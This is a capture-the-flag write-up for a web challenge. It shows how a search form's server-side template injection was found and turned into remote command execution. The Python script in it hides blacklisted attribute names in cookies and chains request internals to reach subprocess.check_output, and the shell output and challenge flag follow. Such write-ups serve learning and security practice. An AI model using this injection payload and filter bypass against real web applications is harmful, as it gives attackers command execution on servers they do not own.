 # http-for-pros (web, 200p, 43 solved)

## Description

```
You have all the hints you need... Get the flag!

Flag format: CTF{sha256}
```

In the task we get a webpage with some search form.

## Task analysis

It seems the form either echos our input, or in some cases sends back some WAF-like error that certain character was blacklisted.
It took us a while to notice that there is a template injection issue.
If we send `{{3*3}}` we get back `9`.

## Template injection

Now also the whole blacklist makes sense!
We need to bypass the blacklist and get RCE.

One of more problematic blocks is `_` and also `__class__`.

But there are some tricks we can use, for example we can use `request.args` to access GET parameters, and we can use `[]` instead of `.` so for example `request[request.args.x]` would do `request.__class__` of GET parameter `x=__class__`.

It so happens that GET parameters were also subjected to blacklist.
But cookies were not!

So following the same idea, we can do `request[request.cookies['a']]`, set cookie `a=__class__` and we confirm it works.

### Gadget chain

Now we just need some decent gadget chain from `request`.
First one we found was `request._get_file_stream.im_func.func_globals['__builtins__']['__import__']`, so we can craft it:

```python
while True:
    cmd = raw_input("sh> ")
    params = {
        "content": "{{request[request.cookies['a']][request.cookies['b']][request.cookies['c']][request.cookies['d']][request.cookies['e']][request.cookies['f']]('subprocess')[request.cookies['g']](request.cookies['h'],shell=True)}}"
    }
    cookies = {
        "a": "__class__",
        "b": "_get_file_stream",
        "c": "im_func",
        "d": "func_globals",
        "e": "__builtins__",
        "f": "__import__",
        "g": "check_output",
        "h": cmd
    }
    r = get("http://35.198.103.37:31612/", params=params, cookies=cookies)
    print(r.text)
```

And we get a nice shell.
From this we can just do `ls -la` and then `cat flag` to get:

```
sh> ls -la
total 32
drwxr-xr-x 1 root root 4096 Dec  1 08:56 .
drwxr-xr-x 1 root root 4096 Dec  1 08:56 ..
-rw-r--r-- 1 dctf dctf  220 Aug 31  2015 .bash_logout
-rw-r--r-- 1 dctf dctf 3771 Aug 31  2015 .bashrc
-rw-r--r-- 1 dctf dctf  655 Jul 12  2019 .profile
-rwxr-xr-x 1 root root 2699 Dec  1 08:55 app.py
-rwxr-xr-x 1 root root   69 Dec  1 08:55 flag
drwxr-xr-x 1 root root 4096 Dec  1 08:55 templates

sh> cat flag
CTF{75df3454a132fcdd37d94882e343c6a23e961ed70f8dd88195345aa874c63e63}
```
